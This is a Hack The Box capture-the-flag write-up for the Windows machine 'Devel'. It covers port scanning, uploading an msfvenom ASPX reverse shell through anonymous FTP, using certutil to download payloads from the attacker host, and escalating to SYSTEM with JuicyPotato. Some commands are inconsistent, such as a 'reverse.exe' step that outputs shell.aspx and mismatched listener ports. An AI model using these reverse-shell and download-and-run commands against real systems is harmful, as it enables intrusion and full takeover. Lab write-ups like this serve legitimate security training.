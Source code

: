 
---
title: "Hack The Box - Devel"
author: darkt3rr0r
date: "2020-05-04"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
toc: true
toc-own-page: true
...

# HackTheBox : Devel

This is a simple Windows box running a Microsoft IIS server. There is an FTP server running which allows annonymous login and a web page is hosted at port 80. The privelege escalation was 
quiet straight forward using JuicyPotato as there is ```SeImpersonatePrivilege ``` token is enabled which was a big clue for using this method.	

## Information Gathering

### Port scan 

```zsh
nmap -sS -sC -v 10.10.10.5 -p-
```
Result of the Nmap Scan

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 11:49 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 10.10.10.5 [4 ports]
Completed Ping Scan at 11:49, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:49
Completed Parallel DNS resolution of 1 host. at 11:49, 0.00s elapsed
Initiating SYN Stealth Scan at 11:49
Scanning 10.10.10.5 [65535 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
SYN Stealth Scan Timing: About 2.86% done; ETC: 12:07 (0:17:34 remaining)
SYN Stealth Scan Timing: About 11.33% done; ETC: 11:58 (0:07:57 remaining)
SYN Stealth Scan Timing: About 20.75% done; ETC: 11:56 (0:05:48 remaining)
SYN Stealth Scan Timing: About 33.44% done; ETC: 11:55 (0:04:01 remaining)
SYN Stealth Scan Timing: About 45.68% done; ETC: 11:55 (0:03:00 remaining)
SYN Stealth Scan Timing: About 57.95% done; ETC: 11:54 (0:02:11 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 11:54 (0:01:22 remaining)
SYN Stealth Scan Timing: About 83.26% done; ETC: 11:54 (0:00:48 remaining)
Completed SYN Stealth Scan at 11:54, 277.14s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.5.
Initiating NSE at 11:54
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 11:54, 7.77s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7

NSE: Script Post-scanning.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 285.56 seconds
           Raw packets sent: 131254 (5.775MB) | Rcvd: 185 (8.124KB)

```

## Enumeration

### Discovery

From the nmap results, it was very clear as to what are the 2 interesting things

- FTP at port 21

- Webpage at port 80

![Important stuff](./images/discovery.png)


### Generating a reverse shell to upload

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx > shell.aspx
```
 
## Exploitation

### Uploading the shell

- Simply Login into the FTP server with credentials `anonymous` and `anonymous`

![logging in with the credentials](./images/anonymous_login.png)

- Upload the apsx reverse shell code which you generated using the msfvenom

![Uploaded the apsx-rev-shell](./images/upload_rev_shell_using_put.png)

### Getting the shell

Start a listener at port 443 (the port you defined in the msfvenom)

```zsh
nc -lvnp 4444
```

Visit the aspx page to start the reverse shell and head back to the listener

![Visit the page](./images/page.png)


Now we have a shell back and should enumerate more inside to find more about the machine

![Intial shell](./images/rev_shell.png)



### Privilege Escalation

We take a look at all the details of the system

```cmd 
systeminfo
```
![Information about the system](./images/systeminfo.png)

Checking the privileges of the system we are working on

```cmd
whoami /priv
```

>SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

This is the broken privilege which can be used to our advantage by juicy potato.

For this to escalate our privileges , we will need to the following things

- python simple http server in your attacker box
- certutil.exe to transfer files via my kali machine to the victim windows machine
- reverse.exe a new one to be used to get a shell with system privileges
- juicy potato to exploit the SeImpersonatePrivilege
- Place all the files that you want to upload in the same folder and then start the http server

>Download x86 version of Juicy potato from this: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

```zsh
python -m SimpleHTTPServer 8000
```
Making a new reverse.exe

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx > shell.aspx
```
Uploading the new reverse.exe 

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/reverse.exe reverse.exe
```
![Uplaoding reverse.exe](./images/reverse.exe.png)

Uploading JuicyPotatox86 as it is a 32 bit machine, so we will need the x86 bianry.

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Juicy.Potato.x86.exe Juicy.Potato.x86.exe 
```
![Uplaoding Juicy potato](./images/juiciypotato.exe.png)

Start a new listener at port 443

```zsh
nc -lvnp 443
```
To find the CLSID for the machine I used this link:
> https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_7_Enterprise/README.md

Run Juicy potato

```cmd
Juicy.Potato.x86.exe -l 1337 -p reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
![Running Juicy potato](./images/potato_run.png)

Check the listener at port 443. You will now have a shell with System privileges

![Running Juicy potato](./images/admin_shell.png)

## Flags

***User Flag***

![User Flag](./images/userflag.png)

***Root Flag***

![Root Flag](./images/rootflag.png)




